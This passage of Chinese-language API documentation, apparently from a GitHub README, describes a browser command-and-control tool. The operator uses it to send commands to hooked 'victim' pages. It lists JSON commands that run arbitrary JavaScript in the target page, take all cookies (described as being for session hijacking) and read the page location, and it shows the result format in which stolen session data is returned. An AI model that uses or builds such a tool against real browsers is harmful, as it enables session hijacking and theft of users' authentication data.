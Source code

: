 **说明:** 当提供 `target_id` 时，命令将仅发送给指定客户端而非广播

## ⚡ API 执行机制

### 🔄 同步执行
- API会等待靶机执行完命令并返回结果（默认超时10秒）
- 响应中的 `results` 字段包含所有靶机的执行结果
- 每个结果包含客户端ID、命令、结果数据、来源URL和时间戳

### 📊 结果格式
```json
{
  "client_id": "victim_abc123",    // 执行命令的靶机ID
  "command": "cookie",             // 执行的命令
  "result": "session_id=abc123",   // 命令执行结果
  "url": "https://target.com",     // 靶机所在页面URL  
  "timestamp": 1640995200          // 执行时间戳
}
```

### ⏱️ 超时处理
- 如果在10秒内未收到所有结果，API将返回已收集的结果
- 消息显示为 "命令已发送，但未收到任何结果（可能无客户端在线或超时）"

---

## 🎯 可用命令类型

### 1. 执行 JavaScript 代码
```json
{
  "command": "eval",
  "args": {
    "code": "document.title"
  }
}
```
**功能:** 在目标页面执行任意 JavaScript 代码
**用途:** 自定义操作、高级信息收集

### 2. 获取 Cookie
```json
{
  "command": "cookie"
}
```
**功能:** 获取当前页面的所有 Cookie
**用途:** 会话劫持、身份认证信息收集

### 3. 获取位置信息
```json
{
  "command": "location"
}
```
**功能:** 获取当前页面的 URL 和位置信息
**用途:** 页面识别、导航信息收集
